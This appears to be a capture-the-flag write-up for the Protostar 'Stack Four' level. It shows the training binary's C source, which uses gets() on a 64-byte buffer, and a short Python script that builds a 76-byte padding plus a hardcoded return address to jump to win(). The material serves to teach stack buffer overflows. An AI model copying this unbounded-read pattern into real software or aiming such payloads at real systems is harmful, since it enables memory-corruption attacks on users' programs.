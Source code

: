 # Stack Four

## Description

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run < input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Exploit script

```python
payload =  "A"*76    # offset to ret
payload += "\xf4\x83\x04\x08"
print(payload)
```

Level passed!

<p align="center">
  <img src="./done.png">
</p>